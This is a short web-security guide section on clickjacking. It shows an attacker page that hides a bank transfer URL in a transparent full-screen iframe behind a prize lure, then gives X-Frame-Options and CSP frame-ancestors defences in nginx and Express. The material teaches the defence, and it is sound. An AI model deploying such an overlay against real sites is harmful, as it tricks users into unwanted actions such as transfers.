 
# 19. Clickjacking

## 19.1 Attack

### 19.1.1 - Invisible iframe
```html
<!-- Attacker site -->
<style>
  iframe {
    opacity: 0;
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
  }
</style>

<h1>Win a Prize! Click Here!</h1>
<iframe src="https://bank.com/transfer?to=attacker&amount=1000"></iframe>

<!-- User thinks they're clicking "Win Prize" 
     but actually clicking hidden "Confirm Transfer" button -->
```

## 19.2 Defense: X-Frame-Options

### 19.2.1 - Header
```nginx
add_header X-Frame-Options "SAMEORIGIN";
# or
add_header X-Frame-Options "DENY";
```

```http
HTTP/2 200 OK
X-Frame-Options: DENY

<!-- Page cannot be embedded in iframe -->
```

### 19.2.2 - CSP Frame-Ancestors
```nginx
add_header Content-Security-Policy "frame-ancestors 'self'";
```

```javascript
app.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "frame-ancestors 'none'");
  next();
});
```

---